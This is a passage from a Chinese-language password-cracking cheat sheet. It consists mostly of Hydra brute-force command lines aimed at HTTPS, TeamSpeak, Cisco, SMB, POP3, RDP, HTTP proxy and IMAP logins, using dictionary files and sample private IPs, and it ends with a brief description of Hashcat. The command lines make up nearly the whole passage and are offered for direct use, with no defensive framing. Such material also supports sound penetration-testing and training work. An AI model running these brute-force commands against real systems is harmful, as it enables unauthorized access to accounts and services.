 > -t表示同时线程数为3；“-l”表示用户名是“admin”，字典为pass.txt，保存为out.txt；“-f”表示破解一个密码就停止；“192.168.0.11”表示目标ip；“http-post-form”表示采用HTTP的POST方式提交表单密码破解；“”中的内容是错误猜解返回提示。


**破解HTTPS：**

```bash
   hydra -m /index.php -l muts -P pass.txt 192.168.10.1 https  
```

**破解teamspeak：**

```bash
hydra -l 用户名 -P 密码字典 -s端口号 -vV ip teamspeak  
```

**破解Cisco:**

```bash   
hydra -P pass.txt 192.168.10.3 cisco    
hydra -m cloud -P pass.txt 192.168.10.3 cisco-enable    
```

**破解SMB：**

```bash
    hydra -l administrator -P pass.txt 192.168.0.115 smb  
```

**破解POP3：**

```
hydra -l muts -P pass.txt my.pop3.mail pop3
```

**破解远程终端账号:**

```
//破解管理员账号：
hydra ip rdp -l administrator -P pass.txt -V    


//批量破解账号:
hydra -s 3389 192.168.22.19 rdp -L user.txt -P pwd.txt -V    

	
//破解HTTP-Proxy:
hydra -l admin -P pass.txt http-proxy://192.168.10.8    

//破解IMAP :
hydra -L user.txt -p secret 192.168.9.2 imap PLAIN    
hydra -C defaluts.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN  
```

## Hashcat

oclHashcat号称是世界上最快的密码破解工具，是世界上唯一第一个基于GPGPU规则的引擎，提供免费的GPU（高达128个GPU）、多哈希、多操作系统（Linux和Windows本地二进制文件）、多平台（OpenCL和CUDA支持）、多算法机制、资源利用率低，基于字典攻击，分布式破解

